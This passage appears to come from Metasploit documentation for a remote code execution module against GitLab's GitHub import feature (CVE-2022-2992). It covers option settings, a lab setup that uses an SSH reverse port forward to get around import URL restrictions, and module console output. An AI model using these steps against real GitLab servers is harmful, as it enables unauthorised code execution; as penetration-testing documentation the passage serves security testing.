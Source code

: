 ### SRVPORT (required)

The local port to listen on. This is the port to be used when creating the tunnel.

### URIHOST

Host to use in GitHub import URL. On default GitLab instances, this must be either a public (non-RFC1918) IP address or
a hostname that resolves to a public IP address. This option can be used in conjunction with a reverse port-forwarding
service such as SSH or NGROK. **The target GitLab server will connect to this host and eventually receive the payload
through it, so it is important to use a host that is considered to be trustworthy.**

## Scenarios

### Docker container running GitLab 15.3.1

The following example uses the following three hosts:

* 192.168.159.128 -- The target GitLab server
* 192.168.250.134 -- The host on which Metasploit is running
* ext.msflab.local -- An external host on the internet through which the HTTP requests from GitLab to Metasploit are
  tunneled in order to bypass GitLab restrictions.

External to Metasploit, SSH is used to setup a reverse port forward through a host with a public (non-RFC1918) IP
address. This is necessary to bypass Import URL restrictions that are in place by default on GitLab. The port-forward
was configured with `ssh -R 8088:localhost:8088 ext.msflab.local` to forward TCP port 8088 on ext.msflab.local to the
local Metasploit instance. Alternatively, this step could be skipped if Metasploit were running on a host with public IP
address.

If the target GitLab server can not import from the specified URL (for example because the host is a private IP
address), then the module will throw this error:

```
[-] Exploit failed: Msf::Exploit::Remote::HTTP::Gitlab::Error::ImportError Invalid URL: http://192.168.250.134:8088/
```

```
msf exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > options

Module options (exploit/multi/http/gitlab_github_import_rce_cve_2022_2992):

   Name          Current Setting          Required  Description
   ----          ---------------          --------  -----------
   IMPORT_DELAY  5                        yes       Time to wait from the import task before try to trigger the payload
   PASSWORD      Password1!               yes       The password for the specified username
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.159.128          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         880                      yes       The target port (TCP)
   SRVHOST       0.0.0.0                  yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8088                     yes       The local port to listen on.
   SSL           false                    no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                no        Path to a custom SSL certificate (default is randomly generated)
```
